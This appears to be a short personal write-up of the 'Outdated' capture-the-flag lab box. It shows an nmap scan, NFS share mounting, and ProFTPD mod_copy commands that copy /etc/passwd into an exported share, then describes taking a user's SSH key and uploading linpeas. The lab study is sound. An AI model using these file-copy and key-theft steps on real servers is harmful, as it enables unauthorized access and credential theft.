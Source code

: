 ```yaml
---
title: Outdated
created: '2020-07-04T12:48:44.472Z'
modified: '2020-07-04T13:14:32.629Z'
---
```


# Outdated
- IP: `172.31.1.22`
- OS: `Linux`
## Enumeration
### Writeup
We can mount a directory from NFS.

The server is running a vulnerable verion of ProFTPD but the [exploit](https://www.exploit-db.com/exploits/36803) requires a webserver. Let's see if we can do it manually.

`site cpfr /etc/passwd`
`site cpto /var/nfsbackups/passwd`

We can get the home folder for daniel and that way, we get his ssh key.
`scp -i /root/Documents/Learn/CyberSecLabs/Outdated/id_rsa linpeas.sh daniel@172.31.1.22:`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.22`
```
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      ProFTPD 1.3.5
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:6b:ae:92:45:a3:2d:d6:45:1c:ad:4f:37:23:4d:3b (DSA)
|   2048 24:4a:81:08:4b:cc:bb:a7:c9:da:3b:17:39:ad:a0:61 (RSA)
|_  256 0c:2b:07:32:18:8c:1a:86:e3:fa:c4:09:de:f5:0f:a0 (ECDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37773/tcp   mountd
|   100005  1,2,3      43057/udp   mountd
|   100005  1,2,3      45897/udp6  mountd
|   100005  1,2,3      46639/tcp6  mountd
|   100021  1,3,4      41620/udp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      46252/udp   nlockmgr
|   100021  1,3,4      55229/tcp6  nlockmgr
|   100024  1          38008/udp6  status
|   100024  1          44207/tcp   status
|   100024  1          55678/tcp6  status
|   100024  1          57842/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  2-3 (RPC #100227)
37541/tcp open  mountd   1-3 (RPC #100005)
37773/tcp open  mountd   1-3 (RPC #100005)
44023/tcp open  mountd   1-3 (RPC #100005)
44207/tcp open  status   1 (RPC #100024)
46185/tcp open  nlockmgr 1-4 (RPC #100021)
```
</details>

<details>
<summary>nfs</summary>

- `showmount -e 172.31.1.22`
```
Export list for 172.31.1.22:
/var/nfsbackups *.*.*.*
```

- `mount -t nfs 172.31.1.22:/var/nfsbackups /mnt/nfsbackups`
</details>

<details>
<summary></summary>

- ``
```

```
</details>
